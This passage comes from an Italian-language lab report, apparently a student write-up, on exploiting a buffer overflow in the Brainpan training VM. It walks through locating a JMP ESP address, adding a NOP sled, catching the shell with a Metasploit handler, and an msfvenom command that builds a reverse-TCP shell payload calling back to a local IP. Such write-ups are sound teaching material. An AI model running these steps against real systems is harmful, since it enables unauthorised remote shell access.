  
\includegraphics[width=0.4\textwidth]{ollydbg4.png}
  \caption{Buffer Overflow, zoom figura \ref{fig:olly3}}
  \label{fig:olly4}
\end{figure}

\footnotetext{Il registro EIP è un registro specializzato di tipo puntatore che contiene sempre l’indirizzo
della prossima istruzione da eseguire.}

\subsubsection{Ricerca del registro JMP ESP}
Dopo alcune ricerche ho stabilito il mio prossimo obiettivo ovvero quello di trovare il registro JMP ESP. Il registro JMP ESP contiene l’istruzione che salterà all’ESP in qualunque punto della memoria. L'ESP è la parte più alta dello stack, che contiene l’indirizzo della cima dello stack. Una volta che abbiamo il controllo del registro EIP, ovvero il puntatore all’istruzione successiva, possiamo inserire l’indirizzo dell JMP ESP all’ interno dell’EIP, forzando il programma ad andare immediatamente all’ESP, nel quale metteremo il nostro codice maligno.\\
Aprendo l'eseguibile brainpan.exe con ollydbg è possibile trovare facilmente l'indirizzo del registro 312712F3 ( Figura \ref{fig:jmpesp}).
\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{JMP ESP.png}
  \caption{Indirizzo registro JMP ESP}
  \label{fig:jmpesp}
\end{figure}

\subsubsection{Creazione reverse shell}
Per la creazione del file maligno ho dovuto fare diverse ricerche in merito in quanto le mie conoscenze in tale ambito erano limitate. Ho deciso quindi di utilizzare una reverse shell, ovvero l'accesso alla shell della macchina vittima. Una volta iniettata la reverse shell nella macchina oggetto dell’attacco, verrà avviata la connessione a un indirizzo scelto in precedenza.\\
Sfruttando il pacchetto msfvenom\footnotemark{} con il comando:
 \begin{code}
msfvenom -p linux/x86/shell/reverse\texttt{\textunderscore}tcp -b \texttt{\textbackslash}x00 LHOST=192.168.1.143 LPORT=8001 -f python
\end{code}
\noindent Otteniamo una reverse shell già in formato base64 e aggiungendo l'opzione "-f" possiamo indicare il linguaggio in cui la vogliamo inserire, nel nostro caso python ( Figura \ref{fig:rs}).

\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{reverse shell.png}
  \caption{Creazione Reverse Shell}
  \label{fig:rs}
\end{figure}

\footnotetext{ Modulo di Metaspoit che permette la creazione di reverse shell.}

\subsubsection{Script per attacco}
Dopo aver creato la reverse shell ho modificato lo script in python (Figura \ref{fig:pythonResult}). Ho importato la reverse shell creata precedentemente copiando il codice generato dal comando precedente.  Creo sempre la mia variabile buffer, sempre con i 524 caratteri 'A' per riempire lo stack, poi viene inserito l'indirizzo del registro JMP\texttt{\textunderscore}ESP. Però il codice della reverse shell non veniva inserita correttamente all'interno del registro ESP. Documentandomi ho capito che andava aggiunta una cosidetta NOP sled per inserire correttamente la reverse shell. Questa NOP sled (o NOP slide) è una sequenza di istruzioni NOP (No -operazioni) che l'obiettivo di a "far scorrere" (slide) il flusso di esecuzione delle istruzioni della CPU alla sua destinazione finale. 

 \begin{code}
[...] '\texttt{\textbackslash}90' * 20  [...]
\end{code}

\noindent Grazie a ollydbg dopo qualche prova ho trovato che il payload corretto era di 20. 

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.92\textwidth]{pythonResult.png}
  \caption{Primo script per attacco con reverse shell}
  \label{fig:pythonResult}
\end{figure}
 


\subsubsection{Creazione handler}
Per ricevere la connessione della reverse shell ho dovuto utilizzare un handler che restasse in ascolto sulla porta che avevo deciso durante la creazione della reverse shell.
\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{handler.png}
  \caption{msfconsole handler}
  \label{fig:h}
\end{figure}
Ho utilizzato l'handler di metaspoit sopratutto per la sua facilità d'uso e completezza (Figura \ref{fig:h}).  Più precisamente ho utilizzato un multi handler dove ho configurato l'indirizzo, ovvero quello della mica macchina, la porta che ho inserito nella reverse shell ed infine anche il payload che ho utilizzato. Infatti il payload deve essere configuriamo in modo che abbia le stesse impostazioni dell'eseguibile che abbiamo generato. Infine con il comando:
 \begin{code}
exploit
\end{code}
\noindent l'handler resta in attesa di qualche connessione.


\subsubsection{Attacco Buffer Overflow}
Dopo aver avviato l'handler ho eseguito lo script puntando ovviamente la macchina virtuale di brainpan. Purtroppo anche dopo vari tentavi non veniva creata nessuna connessione al mio handler.

\subsubsection{Modifica script python}
Dopo alcune ricerche, sono riuscito a capire che molto probabilmente l'errore era nell'utilizzo della socket in quanto il comando 
 \begin{code}
 s.send(buffer.enconde())
\end{code}
\noindent modificava il buffer che inviavo.
\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{python4.png}
  \caption{Script modificato per attacco}
  \label{fig:py4}
\end{figure}
\noindent Ho creato 4 variabili buffer\footnotemark{}, "buf" che contiene la reverse shell, "j" che contiene il buffer per saturare lo stack, "eip" che contiene l'indirizzo del JMP\texttt{\textunderscore}ESP ed infinte il "payload".


\footnotetext{ bytes= b'...' letterali = una sequenza di otto bit (interi compresi tra 0 e 255)}
\newpage

\newpage
\subsection{Conclusione}
Dopo la modifica dello script python sono riuscito a fare eseguire la reverse shell dall'eseguibile e ho ottenuto una connessione alla macchina.
\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{AttaccoRiuscito.png}
  \caption{Attacco Riuscito}
  \label{fig:attriu}
\end{figure}

\noindent Come si può vedere dalla figura \ref{fig:attriu}, nel lato destro del terminale è stato lanciato l'eseguibile che esegue l'attacco mentre a sinistra si può notare l'handler di metasploit con una sessione aperta.
Con il comando
 \begin{code}
ifconfig
\end{code}
\noindent si può notare che mi trovo sulla macchina con indirizzo 192.168.1.142, che è proprio la macchina di brainpan ( Figura \ref{fig:ifcon}).

\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{ifconfigHacked.png}
  \caption{ifconfig su macchina vittima}
  \label{fig:ifcon}
\end{figure}


\newpage
\null
\vfill

\vfill
\newpage
%---------------------------------------------------------------------- Bibliografia -------------------------------------------------------------------------------------
\section{Bibliografia e Sitografia} 

\begin{itemize}
\item \url{https://pythontic.com/modules/socket/send}
\item \url{https://www.fortinet.com/resources/cyberglossary/buffer-overflow}
\item \url{https://www.proofpoint.com/it/threat-reference/brute-force-attack}
\item \url{https://amplio.belluzzifioravanti.it/pluginfile.php/87888/mod_resource/content/1/02_01_registri_del_modello_x86.pdf}
\item \url{https://www.ollydbg.de/}
\item \url{https://nicholasgiordano.it/reverse-shell/}
\item \url{https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/}
\item \url{https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html}
\item \url{https://samsclass.info/127/proj/p4-lbuf-shell.htm}
\item \url{https://en.wikipedia.org/wiki/NOP_slide}
\end{itemize}

\end{document}